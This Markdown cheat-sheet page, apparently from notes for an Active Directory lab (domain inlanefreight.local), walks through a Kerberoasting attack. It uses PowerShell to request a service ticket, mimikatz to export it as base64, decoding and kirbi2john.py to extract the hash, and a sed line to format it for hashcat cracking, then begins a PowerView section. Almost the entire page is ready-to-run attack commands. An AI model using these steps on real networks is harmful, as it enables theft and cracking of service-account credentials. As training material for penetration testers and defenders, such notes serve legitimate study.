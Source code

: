 ## Windows


### Manual Method  

Load the TGS ticket in memory  
```bash
Add-Type -AssemblyName System.IdentityModel
```

```bash
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "vmware/inlanefreight.local"

```

extract ticket to the memory with mimikat in base64  

```bash
mimikatz # base64 /out:true

```

```bash
mimikatz # kerberos::list /export

```

decode the base64 file

```
cat encoded_file | base64 -d > vmware.kirbi

```

Now to extract the TGS ticket use this version of the kirbi2john.py  

```bash

python3 kirbi2john.py vmware.kirbi

```

Clear the output for hashcat format

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

To crack the TGS with [hashcat look this example](AD%20Cheat%20Sheet/Hashcat/TGS%20Kerberos%20Ticker.md)

### Powerview

First import the module  

```bash

Import-Module .\PowerView.ps

```
